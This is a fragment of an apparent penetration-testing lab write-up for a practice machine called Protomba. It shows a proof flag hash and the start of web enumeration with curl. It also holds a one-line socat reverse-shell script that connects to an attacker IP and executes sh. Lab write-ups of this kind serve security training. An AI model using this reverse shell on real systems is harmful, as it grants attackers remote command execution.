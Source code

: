 Shell script : 

```sh
#!/bin/bash
socat TCP:192.168.49.147:18000 EXEC:sh
```

**Proof Screenshot Here:**

![](attachments/Pasted%20image%2020220517192721.png)

**Proof.txt Contents:**


`335f9e5e62866c9e4b353b68e07c93c0`

--------

### NOTES : 
#### Web Enumeration

After some basic enumeration, we discover that the application running on port 18000 presents a standard web page.

```bash
kali@kali:~$ curl http://192.168.120.36:18000/ 
<!DOCTYPE HTML>
<html>
	<head>
		<title>Eventually by HTML5 UP</title>
...
	</head>
	<body class="is-preload">
    <!-- Header -->
    <header id="header">
        <h1>Protomba</h1>
        <p>Making the world a better place</p>
    </header>

    <p>Protomba is more than just a random Idea. 
Blockchain, Shopping and Community are just a few characteristic of Protomba. But we offer a lot more!</p>

<p>Want to join us? Please <a href="/users/new">register</a> today for a new account, or  <a href="/login">login</a> if you are already part of the team.</p>
...
		<!-- Scripts -->
```